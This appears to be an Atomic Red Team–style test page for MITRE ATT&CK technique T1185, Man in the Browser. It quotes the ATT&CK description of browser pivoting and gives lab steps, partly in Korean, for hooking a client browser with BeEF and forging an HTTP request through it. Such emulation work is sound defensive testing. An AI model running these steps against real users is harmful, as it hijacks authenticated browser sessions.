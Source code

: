 # T1185A - Man in the Browser
<blockquote>
This page was modified by A-FIRST
</blockquote>
<br/>

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1185/)
<blockquote>Adversaries can take advantage of security vulnerabilities and inherent functionality in browser software to change content, modify behavior, and intercept information as part of various man in the browser techniques. [1]

A specific example is when an adversary injects software into a browser that allows an them to inherit cookies, HTTP sessions, and SSL client certificates of a user and use the browser as a way to pivot into an authenticated intranet. [2] [3]

Browser pivoting requires the SeDebugPrivilege and a high-integrity process to execute. Browser traffic is pivoted from the adversary's browser through the user's browser by setting up an HTTP proxy which will redirect any HTTP and HTTPS traffic. This does not alter the user's traffic in any way. The proxy connection is severed as soon as the browser is closed. Whichever browser process the proxy is injected into, the adversary assumes the security context of that process. Browsers typically create a new process for each tab that is opened and permissions and certificates are separated accordingly. With these permissions, an adversary could browse to any resource on an intranet that is accessible through the browser and which the browser has sufficient permissions, such as Sharepoint or webmail. Browser pivoting also eliminates the security provided by 2-factor authentication </blockquote>

## Atomic Tests

- [Atomic Test #1 - forge http request - BeEF](#atomic-test-1---forge-http-request-BeEF)

<br/>

## Atomic Test #1 - forge http request - BeEF
forge http request - BeEF

**Supported Platforms:** Windows (Administrator privileges required)




#### Run it with these steps! 
#### 아래 순서대로 진행
공격자 서버
1. Open cmd.exe 
2. cd /home/kali/Desktop/beef/beef
3. ./beef

클라이언트
4. http://192.168.1.129:3000/demos/basic.html

공격자 서버
5. http://127.0.0.1:3000/ui/panel 접속 (beef1/beef1)
6. 접속 된 클라이언트 클릭 - 오른쪽 패널에서 proxy 클릭 - Forge Request - 
GET /home/kali/Desktop/beef/beef/extensions/demos/html/secret_page.html HTTP/1.1
Host: 192.168.1.129:3000 - send
7. history에서 정상 요청 확인



<br/>
